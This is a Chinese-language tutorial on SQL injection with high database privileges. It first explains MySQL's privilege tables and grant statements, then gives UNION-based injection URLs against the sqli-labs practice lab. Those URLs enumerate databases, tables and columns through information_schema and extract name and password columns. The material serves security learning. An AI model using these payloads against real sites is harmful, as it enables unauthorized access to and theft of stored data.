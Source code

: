 # SQL注入—高权限注入

# SQL注入—高权限注入

## MySQL 权限介绍

MySQL服务器通过权限表来控制用户对数据库的访问，权限表存放在 `mysql` 数据库中，`mysql` 库中存在4个控制权限的表：`user` 表，`db` 表，`tables_priv` 表，`columns_priv` 表。

​	

### 系统权限表

- User 表：存放用户账户信息以及全局级别（所有数据库）权限，决定了来自哪些主机的哪些用户可以访问数据库实例，如果有全局权限则意味着对所有数据库都有此权限
- Db 表：存放数据库级别的权限，决定了来自哪些主机的哪些用户可以访问此数据库
- Tables_priv 表：存放表级别的权限，决定了来自哪些主机的哪些用户可以访问数据库的这个表
- Columns_priv 表：存放列级别的权限，决定了来自哪些主机的哪些用户可以访问数据库表的这个字段
- Procs_priv 表：存放存储过程和函数级别的权限

​	

### MySQL 权限级别

- 全局性的管理权限： 作用于整个 MySQL 实例级别
- 数据库级别的权限： 作用于某个指定的数据库上或者所有的数据库上
- 数据库对象级别的权限：作用于指定的数据库对象上（表、视图等）或者所有的数据库对象

​	

### mysql权限表的验证过程

1. 从 user 表中的 Host, User, Password 这3个字段中判断连接的 ip、用户名、密码是否存在，存在则通过验证
2. 通过身份认证后，进行权限分配
3. 按照 user，db，tables_priv，columns_priv 的顺序进行验证
4. 先检查全局权限表 user，如果 user 中对应的权限为 Y，则此用户对所有数据库的权限都为 Y，将不再检查 db、tables_priv、columns_priv
5. 如果为 N，则到 db 表中检查此用户对应的具体数据库并得到 db 中为 Y 的权限
6. 如果 db 中为 N，则检查 tables_priv 中此数据库对应的具体表，取得表中的权限 Y，以此类推

​	

### 查看 MySQL 服务器有哪些用户

```mysql
select user, host from mysql.user;
```

​	

### 查看用户对应权限

```mysql
select * from user where user='root' and host='localhost'\G;  #如果所有权限都是 Y ，就是什么权限都有
```

​	

### 创建 MySQL 用户

有两种方式创建 MySQL 授权用户

```mysql
#执行 create user/grant 命令（推荐方式）
CREATE USER 'finley'@'localhost' IDENTIFIED BY 'some_pass';

#通过 insert 语句直接操作 MySQL 系统权限表
```

​	

### 只提供 id 查询权限

```mysql
grant select(id) on test.temp to test1@'localhost' identified by '123456';
```

​	

### 把普通用户变成管理员

```mysql
GRANT ALL PRIVILEGES ON *.* TO 'test1'@'localhost' WITH GRANT OPTION;
```

​	

### 删除用户

```mysql
drop user finley@'localhost';
```

​	

​	

## 高权限注入

**注入流程与正常的手工注入流程差不多**

​	

### 查询所有数据库名称

![](https://pic.imgdb.cn/item/64c1e59c1ddac507cc84eff2.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

​	

### 查询数据库对应的表名

![](https://pic.imgdb.cn/item/64c1e6af1ddac507cc867e76.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(table_name),3 from%20information_schema.tables where table_schema=test
```

​	

### 查询表名对应的字段名

![](https://pic.imgdb.cn/item/64c1e6bf1ddac507cc8695d7.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=t1
```

​	

### 查询数据

![](https://pic.imgdb.cn/item/64c1e6d01ddac507cc86a965.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,name,pass from test.t1
```


